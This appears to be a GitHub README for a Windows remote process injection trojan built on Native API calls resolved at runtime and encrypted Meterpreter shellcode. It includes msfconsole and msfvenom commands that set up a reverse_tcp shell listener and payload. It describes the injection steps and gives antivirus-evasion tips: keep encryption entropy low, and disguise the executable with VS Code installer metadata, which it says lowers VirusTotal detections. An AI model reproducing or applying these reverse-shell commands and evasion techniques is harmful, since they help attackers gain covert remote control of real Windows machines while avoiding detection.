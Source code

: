 # Native API Remote Process injection Trojan

Remote process injection trojan using Native Api functions (dynamically resolved) and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
This malware calls native api functions usei dynamically resolved function pointers from ntdll.dll, reducing static IAT footprint. So it basically retrieves addresses of native api functions at runtime and uses them to upload shellcode into a target process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) Native Api:
We get a handle to ntdll and we dynamically resolve its functions, these are the lowest level Win API calls exposed to the user mode, and are the closest interface to the Windows kernel, below them there are just system calls which i will include in the future. Unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```.
- Once we retrieve them, we can call these native NT functions directly and use them to do cool stuff : )

### 2.2) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we find the PID of the target process using GetProcID and we get a handle for it;
- We allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable;
- Then we create a new thread in the target process which will execute the shellcode.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/nt-crypt-proc-inj-msfvenom.png" width="350" />

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). On virus total it gets 9 detections and as usual virustotal doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like visual studio code installer, the detections drop to 2 on virus total.

<img align="right" src="media/nt-crypt-proc-inj-msfvenom-reshacked.png" width="350" />
